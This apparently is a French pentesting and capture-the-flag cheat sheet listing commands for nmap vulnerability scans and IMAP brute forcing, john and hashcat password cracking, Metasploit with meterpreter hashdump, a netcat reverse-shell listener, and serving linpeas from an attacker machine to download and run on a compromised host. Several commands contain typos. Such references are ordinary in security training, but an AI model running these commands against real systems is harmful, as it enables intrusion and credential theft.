## Wordlists

Sur Kali : 
`/usr/share/wordlists/`  
`/usr/share/wordlists/dirbuster/`


## nmap

trouver les vulnérabilités  
`nmap -sC -sV -O 10.10.0.0-255 –script=vuln`


Brute force srv mail  
`nmap -p 143 --script=imap-brute --script-args userbdb=userfilename, passdb=dict.txt ip`k

wordpress
```
find / -name *wordpress*.nse
nmap -p 80 ip --script=http-wordpress-users
```

## john

``john --wordlist=wordlist_file.txt file_to_crack``

```
#file_to_crack

user:hash
user2:hash2

```

jwt en sha256
```
cat > /tmp/hash << EOF
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6MCwiZXhwIjoxNzI4ODA5ODM2fQ.wcMEZhrZRprqy8-a2fC2sbvsWrNUBcj3gpf9epyssck
EOF
john /tmp/hash --format=HMAC-SHA256
```

## hashcat

```
hascat -h | grep MD5

hashcat -m 0 file dict1 dict2 dict3
```

## Metasploit

```
msfconsole
search {vuln_name} # ex ms17-010

use {n}
set lhost {ip}
set rhost {ip_cible}
options # check of others parameters

run
```

une fois sur l'host meterpreter est lancé, on peut lancer un shell depuis celui ci.

``meterpreter> hashdump`` # récupère les hash de la machine

Sur une machine windows
Nom_Utilisateur:RID:Hash_LM:Hash_NTLM

lors d'un hashdump, on se concentre sur la dernière partie (le hash NTLM) car le hash LM qui le précède est une antiquité inutile et non sécurisée, souvent même pas présente sur les systèmes récents. C'est le hash NTLM qui représente la clé d'accès au compte.


``meterpreter> search -f flag*``

# gobuster

`gobuster dir -w path/to/wordlist -u url`

# burp

`burpsuite`

# netcat

Ecouter un reverse shell  
`nc -nlvp 1234` 

# linpeas

``wget -O url/linpeas.sh``  
Pour l'envoyer sur la machine cible  
`python3 -m http.server 8081`

sur le reverse shell
```
wget -O linpeas.sh http://ip_machine:8081/linpeas.sh

chmod +x linpeas.sh
./linpeas.sh
```

# emlAnalyzer

`emlAnalyzer -i mail_file`  
Extraire une pj
`emlAnalyzer -i mail_file -ea 1`

# zip2jhon

zip protegé par un mdp

```
zip2jhon secret.zip > hashzip
john --wordlist=/isr/share/wordlists/rockyou.txt hashzip
```

`unzip secret.zip`
